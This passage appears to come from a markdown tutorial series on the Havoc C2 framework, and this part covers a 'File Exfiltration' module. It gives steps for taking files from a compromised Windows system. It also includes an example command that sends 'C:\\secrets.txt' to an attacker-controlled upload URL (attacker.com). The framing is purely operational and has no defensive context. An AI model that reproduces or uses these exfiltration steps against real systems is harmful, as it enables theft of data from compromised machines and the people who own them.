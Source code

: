 
---

#### **8. File Exfiltration**

**File**: `File_Exfiltration.md`

# Exfiltrating Files Securely

## Description
This tutorial explains how to use the **File Exfiltration** module to securely exfiltrate files from a compromised system.

## Requirements
- **Operating System**: Windows.
- **Havoc C2**: The File Exfiltration module must be loaded.

## Steps
1. **Preparation**:
   - Load the **File Exfiltration** module in Havoc C2.

2. **Execution**:
   - Use the command `exfiltrate_file [file_path] [server_url]` to exfiltrate a file to a remote server.

3. **Verification**:
   - Verify the file exfiltration by checking the remote server.

## Example Command
```bash
exfiltrate_file "C:\\secrets.txt" "http://attacker.com/upload"